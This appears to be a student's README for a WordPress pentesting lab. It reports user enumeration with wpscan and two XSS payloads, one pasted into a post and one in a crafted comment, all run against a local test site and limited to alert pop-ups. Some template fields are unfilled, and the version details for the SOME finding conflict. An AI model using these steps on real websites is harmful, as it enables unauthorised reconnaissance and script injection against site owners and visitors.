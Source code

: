 # Project 7 - WordPress Pentesting

Time spent: **12** hours spent in total


## Pentesting Report

User Enumeration
  - [ ] Summary: WPscan enumerates users
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/ffo9OYX.gif)
  - [ ] Steps to recreate: run wpscan --url http://wpdistillery.vm/ --enumerate u on WPscan

  - [ ] Affected source code: https://github.com/WordPress/WordPress/blob/4.2-branch/wp-login.php
Same-Origin Method Execution (SOME)
  - [ ] Summary: WordPress 4.5.1 is vulnerable against a Same-Origin Method Execution (SOME) vulnerability that stems from an insecure URL sanitization process performed in the file plupload.flash.swf. The code in the file attempts to remove flashVars ¹ in case they have been set GET parameters but fails to do so, enabling XSS via ExternalInterface ².
    - Vulnerability types: XSS
    - Tested in version: 4.2.2
    - Fixed in version:  4.2.8
  - [ ] GIF Walkthrough: <img src="https://i.imgur.com/ID8jnAo.gif" width="800">
  - [ ] Steps to recreate: Go to any post and paste <button onclick="fire()">Click</button> <script> function fire() {open('javascript:alert(23)');} </script>
  Alert 23 will pop up
  - [ ] Affected source code: 
    - [Link 1] https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
    
Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: <img src="https://i.imgur.com/dwgnDan.gif" width="800">
  - [ ] Steps to recreate: 
  
    1.Comment on a post with this comment <a href='/wp-admin/' title=""             style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(23)//'>Test</a>
  
  2. post comment
  
  3. alert 23 will show
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2018] [Mark Carino]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
